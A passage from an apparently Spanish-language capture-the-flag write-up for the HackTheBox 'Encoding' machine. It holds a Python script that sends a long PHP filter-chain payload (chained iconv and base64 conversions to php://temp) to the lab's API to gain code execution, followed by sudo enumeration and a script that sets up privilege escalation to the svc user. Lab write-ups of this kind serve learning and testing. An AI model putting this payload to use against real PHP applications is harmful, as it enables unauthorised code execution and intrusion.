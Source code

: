 ```python
e64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp'
}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
print(base64.b64decode(json.loads(response.text)["data"]).decode("latin-1"))
```

----
# svc

Nos fijamos si **www-data** tiene permitido ejecutar algún comando como otro usuario mediante el comando `sudo -l`:

```bash
www-data@encoding:~/image/actions$ sudo -l
sudo -l
Matching Defaults entries for www-data on encoding:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on encoding:
    (svc) NOPASSWD: /var/www/image/scripts/git-commit.sh
```

`git-commit.sh`

```bash
#!/bin/bash

u=$(/usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image ls-files  -o --exclude-standard)

if [[ $u ]]; then
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image add -A
else
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image commit -m "Commited from API!" --author="james <james@haxtables.htb>"  --no-verify
fi
```
